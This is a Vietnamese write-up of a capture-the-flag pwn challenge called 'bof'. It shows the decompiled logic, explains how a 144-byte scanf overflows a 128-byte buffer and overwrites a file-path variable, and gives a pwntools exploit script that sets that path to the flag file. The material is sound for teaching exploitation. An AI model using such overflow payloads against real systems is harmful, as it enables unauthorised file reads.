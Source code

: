 # Decription
![](images/bof.png)

## Source
Bài không cho chúng ta source mà chỉ có binary. Dùng ida để dịch ngược.

Main Func:
![](images/main.png)
Read_cat Func:
![](images/read_cat.png)

### Problem
```c
Ta dễ thấy trong hàm main v4 được khai báo 128 bytes mà scanf lại nhập tới 144 bytes.
-> v5 bị ghì đè.

Mà ta thấy read_cat sẽ mở v5 đọc và in nó ra.

Hơn nữa trong mô tả ta thấy rằng flag ở trong /home/bof/flag.

-> ghì đè v5 thành /home/bof/flag.
```
#### Solve
```c
payload = b'a'*128
payload +=b'/home/bof/flag'
```
![](images/test.png)

Hmm. Tôi sẽ tạo 1 file trong /home/bof/flag trên máy local để test.

![](images/flagfake.png)

Chạy lại script:
![](images/flag.png)

Rồi. Connect lên server là lấy flag thật.

#### Full script

```c
#!/usr/bin/env python3

from pwn import *

exe = ELF('bof', checksec=False)
# libc = ELF('', checksec=False)
context.binary = exe

info = lambda msg: log.info(msg)
s = lambda data, proc=None: proc.send(data) if proc else p.send(data)
sa = lambda msg, data, proc=None: proc.sendafter(msg, data) if proc else p.sendafter(msg, data)
sl = lambda data, proc=None: proc.sendline(data) if proc else p.sendline(data)
sla = lambda msg, data, proc=None: proc.p.sendlineafter(msg, data) if proc else p.sendlineafter(msg, data)
sn = lambda num, proc=None: proc.send(str(num).encode()) if proc else p.send(str(num).encode())
sna = lambda msg, num, proc=None: proc.sendafter(msg, str(num).encode()) if proc else p.sendafter(msg, str(num).encode())
sln = lambda num, proc=None: proc.sendline(str(num).encode()) if proc else p.sendline(str(num).encode())
slna = lambda msg, num, proc=None: proc.sendlineafter(msg, str(num).encode()) if proc else p.sendlineafter(msg, str(num).encode())
def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''


        c
        ''')
        input()


if args.REMOTE:
    p = remote('')
else:
    p = process([exe.path])
# GDB()

payload = b'a'*128
payload +=b'/home/bof/flag'

sl(payload)

p.interactive()
```
